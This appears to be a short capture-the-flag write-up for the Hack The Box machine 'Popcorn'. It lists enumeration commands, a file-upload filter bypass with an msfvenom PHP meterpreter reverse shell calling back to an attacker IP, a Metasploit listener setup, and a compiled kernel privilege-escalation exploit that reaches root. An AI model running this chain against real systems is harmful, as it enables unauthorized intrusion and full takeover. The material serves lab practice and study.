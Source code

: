 # Popcorn 10.10.10.6


$ nmap -A 10.10.10.6
=> 80

$ dirb http://10.10.10.6
http://10.10.10.6/torrent/

Bittornado is a torrent client. 
Register an account
Upload a torrent
Submit a screenshot : need to upload a .png file

Rename .php => .php.png 

Build a .php reverse shell
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.3 lport=4321 -f raw  > 123.php.png

Intercept the Post with Burp
Rename 123.php.png to 123.php

dirb http://10.10.10.6/torrent/
http://10.10.10.6/torrent/upload/ 

Prepare a listener
$ msfconsole
msf use exploit/multi/handler
msf exploit(multi/handler) set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost 10.10.14.3
msf exploit(multi/handler) set lport 4321
msf exploit(multi/handler) exploit

meterpreter > sysinfo
 Linux popcorn 2.6.31-14
 => Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 Privilege to get root
 https://www.exploit-db.com/exploits/15704

 upload 15704.c
 shell
 gcc 15704.c -o exploit
 chmod 755 exploit
 ./exploit
 id
 uid=0(firefart)
 cat /root/root.txt

 

